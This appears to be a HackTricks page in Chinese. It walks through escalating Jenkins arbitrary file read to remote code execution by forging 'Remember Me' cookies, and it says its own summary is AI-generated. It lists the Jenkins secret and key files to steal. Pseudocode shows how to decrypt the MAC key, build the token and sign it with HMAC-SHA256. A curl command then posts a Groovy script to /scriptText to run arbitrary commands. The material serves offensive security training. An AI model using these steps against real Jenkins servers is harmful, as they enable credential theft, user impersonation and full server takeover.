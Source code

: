 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

在这篇博客文章中，可以找到将 Jenkins 中的本地文件包含漏洞转化为 RCE 的绝佳方法：[https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

这是一个 AI 创建的摘要，内容涉及如何利用任意 cookie 来获取 RCE，直到我有时间自己创建摘要为止：

### 攻击前提

* **功能要求：** 必须启用“记住我”（默认设置）。
* **访问级别：** 攻击者需要整体/读取权限。
* **秘密访问：** 能够读取关键文件中的二进制和文本内容。

### 详细利用过程

#### 第一步：数据收集

**用户信息检索**

* 访问每个用户的用户配置和秘密，位于 `$JENKINS_HOME/users/*.xml`，以收集：
* **用户名**
* **用户种子**
* **时间戳**
* **密码哈希**

**密钥提取**

* 提取用于签署 cookie 的加密密钥：
* **秘密密钥：** `$JENKINS_HOME/secret.key`
* **主密钥：** `$JENKINS_HOME/secrets/master.key`
* **MAC 密钥文件：** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### 第二步：Cookie 伪造

**令牌准备**

*   **计算令牌过期时间：**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 当前时间加一小时
```
{% endcode %}
*   **连接令牌数据：**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC 密钥解密**

*   **解密 MAC 密钥文件：**

```javascript
key = toAes128Key(masterKey)  // 将主密钥转换为 AES128 密钥格式
decrypted = AES.decrypt(macFile, key)  // 解密 .mac 文件
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**签名计算**

*   **计算 HMAC SHA256：**

```javascript
mac = HmacSHA256(token, macKey)  // 使用令牌和 MAC 密钥计算 HMAC
tokenSignature = bytesToHexString(mac)  // 将 MAC 转换为十六进制字符串
```

**Cookie 编码**

*   **生成最终 Cookie：**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Base64 编码 cookie 数据
```
{% endcode %}

#### 第三步：代码执行

**会话认证**

* **获取 CSRF 和会话令牌：**
* 向 `/crumbIssuer/api/json` 发出请求以获取 `Jenkins-Crumb`。
* 从响应中捕获 `JSESSIONID`，该 ID 将与记住我 cookie 一起使用。

**命令执行请求**

*   **发送带有 Groovy 脚本的 POST 请求：**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 脚本可用于在 Jenkins 环境中执行系统级命令或其他操作。

提供的示例 curl 命令演示了如何使用必要的头和 cookie 向 Jenkins 发出请求，以安全地执行任意代码。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}
